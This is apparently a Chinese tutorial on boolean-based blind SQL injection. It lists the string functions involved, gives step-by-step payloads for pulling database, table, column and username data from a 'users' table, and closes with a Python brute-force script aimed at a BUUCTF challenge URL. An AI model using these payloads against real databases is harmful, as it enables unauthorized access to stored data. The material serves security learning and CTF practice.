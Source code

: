 ## 布尔盲注
原理：运用截取单个字符，用ascii码进行加密，用if进行判断，根据页面的回显情况，判断每个字符的ascii码，最后一点点试出来数据库的信息

常用函数：
```
substr    截断
mid       截断
left      从左边开始截断
right     从右边开始截断
ord       ascii码加密 ，用于将一个字符（即一个长度为1的字符串）转换为它的 ASCII 码值
ascii     ascii码加密，用于将一个字符串中的所有字符转换为它们的 ASCII 码值的字符串表示
char      ascii码解密
length    统计长度

对于orderby可以用 case when语句，if()语句。
```


通常采用下面的办法猜解字符串：
```
where length(database())=4 --+
' and length(database())=8 --+
' and ascii(substr(database(),1,1)) > N --+
' and ascii(substr(database(),1,1)) = N --+
' and ascii(substr(database(),1,1)) < N --+
```


## 获取数据库名

**找到注入点，判断闭合情况\
获取数据库名 先得到数据库名的长度**

```
and length(database())>5
```

## []()再依次获取数据库名的每一个字符

```
and ascii(substr(database(),1,1))>97
```

## []()先获取表数量

```
and (select count(\*) from information_schema.tables where table_schema=database())>5
```

## []()再用limit依次获取每个表名的长度

```
and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>5
```

## []()最后获取每个表名的名字

```
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97
```

## []()先获取列名个数

```
and (select count(*) from information_schema.columns where table_name='users' and table_schema=database())>5
```

## []()再获取列名长度

```
and (select length(column_name) from information_schema.columns where table_name='users’ and table_schema=database() limit 0,1)>5
```

## []()最后获取列名

```
and ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),1,1))>97
```

## []()先确定第一个用户名长度

```
and (select length(username) from users limit 0,1)>5
```

## []()再确定用户名每一个字符的对应字母

```
and ascii(substr((select username from users limit 0,1),1,1))>97
```
^
## **盲注脚本**
```
# -*- coding:utf-8 -*-
# Author: mochu7
import requests
import string

def blind_injection(url):
	flag = ''
	strings = string.printable
	for num in range(1,60):
		for i in strings:
			payload = '(select(ascii(mid(flag,{0},1))={1})from(flag))'.format(num,ord(i))
			post_data = {"id":payload}
			res = requests.post(url=url,data=post_data)
			if 'Hello' in res.text:
				flag += i
				print(flag)
			else:
				continue
	print(flag)


if __name__ == '__main__':
	url = 'http://64368c9f-dd87-4c49-b9a1-d4b82e98c87a.node3.buuoj.cn/index.php'
	blind_injection(url)

```